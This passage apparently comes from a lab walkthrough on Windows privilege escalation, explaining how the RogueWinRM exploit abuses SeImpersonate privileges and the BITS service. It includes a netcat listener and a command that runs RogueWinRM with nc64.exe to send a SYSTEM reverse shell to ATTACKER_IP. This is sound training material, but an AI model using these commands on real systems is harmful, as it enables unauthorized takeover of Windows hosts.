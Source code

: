 ```
http://10.10.143.36/
```

We can use the web shell to check for the assigned privileges of the  compromised account and confirm we hold both privileges of interest for  this task:

![Webshell impersonate privileges](./assets/4603506a36f4bbda602dc67cdc845d9f.png)

To use RogueWinRM, we first need to upload the exploit to the target  machine. For your convenience, this has already been done, and you can  find the exploit in the `C:\tools\` folder.

The RogueWinRM exploit is possible because whenever a user (including unprivileged users) starts the BITS service in Windows, it  automatically creates a connection to port 5985 using SYSTEM privileges. Port 5985 is typically used for the WinRM service, which is simply a  port that exposes a Powershell console to be used remotely through the  network. Think of it like SSH, but using Powershell.

If, for some reason, the WinRM service isn't running on the victim  server, an attacker can start a fake WinRM service on port 5985 and  catch the authentication attempt made by the BITS service when starting. If the attacker has SeImpersonate privileges, he can execute any  command on behalf of the connecting user, which is SYSTEM.

Before running the exploit, we'll start a netcat listener to receive a reverse shell on our attacker's machine:

- **Kali Linux**        

```shell-session
user@attackerpc$ nc -lvp 4442
        
```

And then, use our web shell to trigger the RogueWinRM exploit using the following command:

```shell-session
c:\tools\RogueWinRM\RogueWinRM.exe -p "C:\tools\nc64.exe" -a "-e cmd.exe ATTACKER_IP 4442"
```
